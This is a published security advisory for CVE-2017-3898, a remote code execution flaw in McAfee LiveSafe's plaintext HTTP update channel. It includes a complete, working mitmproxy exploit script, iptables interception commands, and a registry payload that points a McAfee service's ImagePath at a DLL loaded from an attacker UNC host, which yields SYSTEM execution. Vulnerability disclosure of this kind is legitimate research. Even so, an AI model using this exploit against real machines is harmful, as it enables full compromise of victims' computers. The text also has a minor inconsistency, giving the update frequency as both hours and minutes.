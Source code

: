 ## Vulnerabilities Summary
The following advisory describes a Remote Command Execution found in McAfee McAfee LiveSafe (MLS) versions prior to 16.0.3. The vulnerability allows network attackers to modify the Windows registry value associated with the McAfee update via the HTTP backend-response.

McAfee Security Scan Plus is a free diagnostic tool that ensures you are protected from threats by actively checking your computer for up-to-date anti-virus, firewall, and web security software. It also scans for threats in any open programs.

## Credit
An independent security research company, Silent Signal, has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

## Vendor response
The vendor has released patches to address this vulnerability.

For more information: https://service.mcafee.com/webcenter/portal/cp/home/articleview?articleId=TS102714

CVE: CVE-2017-3898

## Vulnerabilities Details
An active network attacker can achieve remote code execution in multiple McAfee products. Affected products retrieve configuration data over plaintext HTTP channel from the http://COUNTRY.mcafee.com/apps/msc/webupdates/mscconfig.asp URL (where COUNTRY is a two letter country identifier, e.g. “uk”).

The response body contains XML formatted data, similar to the following:

```
<webservice-response response-version="1.0" frequency="168"
verid="1#1316#15#0#2">
<update>
<reg key="HKLM\SOFTWARE\McAfee\MSC\Settings\InProductTransaction"
name="enable" type="REG_DWORD" value="1" obfuscate="0"/>
</update>
</webservice-response>
```

The response describes a Registry modification with the reg tags under the webservice-response/update path.

This request and subsequent update is triggered automatically, first upon the installation of the software then after the number of hours indicated by the frequency attribute of the webservice-request node (168 minutes by default).

The update is executed by the PlatformServiceFW.dll of the McSvHost.exe process by invoking the mcsvrcnt.exe program with the /update argument. The McSvHost.exe process is running with SYSTEM privileges that is inherited by mcsvrcnt.exe that implements the Registry change.

As a result active network attackers can modify the server responses to write the Registry of the target with SYSTEM privileges.

## Proof of Concept
The exploit runs as a proxy that intercepts and modifies plaintext HTTP requests and responses. Since the target software performs certificate validation for HTTPS services it’s important to let these connections pass through without modification.
In regular HTTP proxy mode this can be achieved by using the --ignore command line parameter of mitmproxy:

```
mitmproxy -s mcreggeli_inline.py --ignore '.*'
```

In case of transparent proxy mode the above parameter should not be provided:


```
mitmproxy -s mreggeli_inline.py –T
```

For transparent proxy mode the following commands configure NAT and port redirection on common Debian-based Linux distributions (eth0 is the interface visible to the target, eth1 is connected to the internet):

```
iptables -t nat -A PREROUTING -i eth0 -p tcp \
--dport 80 -j REDIRECT --to 8080
iptables -t nat -A POSTROUTING -o eth1 -j MASQUERADE
sysctl net.ipv4.ip_forward=1
```

The script looks for the “mscconfig.asp” string in the request URL. If found the XML response body is deserialized, and new reg nodes are added based on the REG variable declared at the beginning of the script. The REG variable is a list of dictionaries, each dictionary containing the following keys:

Key – The name of the Registry key to modify (e.g. “HKLM\SYSTEM\CurrentControlSet\Services\mfevtp”, backslashes should be escaped properly for Python)
Type – Type of the value to create (e.g. “REG_SZ” for strings)
Name – Name of the value to create
Value – Value to be created
The exploit also changes the frequency attribute to 1 so re-exploitation can be performed in shorter time (in 1 hour) if needed. After the new nodes are inserted, the resulting object is serialized and put in place of the original response body.

To demonstrate code execution one of the own service entries of the affected McAfee products (mfevtp – McAfee Process Validation Service) was overwritten: the ImagePath value of the HKLM\SYSTEM\CurrentControlSet\Services\mfevtp key was replaced to point the built-in rundll32.exe with an UNC path argument pointing to the attacker host (The payload (test.dll) was served with Metasploit’s smb_delivery module during testing):



The REG variable was declared like the following:


```
REG=[{"key":"HKLM\\SYSTEM\\CurrentControlSet\\Services\\mfevtp", "type":"REG_SZ","name":"ImagePath", "value":"c:\\windows\\system32\\rundll32.exe \\\\172.16.205.1\\pwn\\test.dll,0"},]
```

In this way SYSTEM level command execution is triggered after the machine is restarted, the exploit was not caught by the McAfee software.

mcreggeli_inline.py

```
#!/usr/bin/env python3
#
# HTTP proxy mode:
#  mitmproxy -s mcreggeli_inline.py --ignore '.*' 
#
# Transparent proxy mode: 
#   mitmproxy -s mcreggeli_inline.py -T --host
#

from mitmproxy import ctx, http
from lxml import etree

REG=[{"key":"HKLM\\SYSTEM\\CurrentControlSet\\Services\\mfevtp","type":"REG_SZ","name":"ImagePath","value":"c:\\windows\\system32\\rundll32.exe \\\\172.16.205.1\\pwn\\test.dll,0"},]

def response(flow):
    if flow.request.scheme == "http" and "mscconfig.asp" in flow.request.url:
        try:       
            oxml=etree.XML(flow.response.content)
            oxml.set("frequency","1")
            update=oxml.xpath("//webservice-response/update")[0]
            for r in REG:
                reg=etree.SubElement(update,"reg")
                reg.set("key", r["key"])
                reg.set("type", r["type"])
                reg.set("obfuscate", "0")
                reg.set("name", r["name"])
                reg.set("value", r["value"])
            #ctx.log(etree.tostring(oxml)) 
            flow.response.content=etree.tostring(oxml)
            ctx.log("[+] [MCREGGELI] Payload sent")
        except etree.XMLSyntaxError:
            ctx.log("[-] [MCREGGELI] XML deserialization error")
```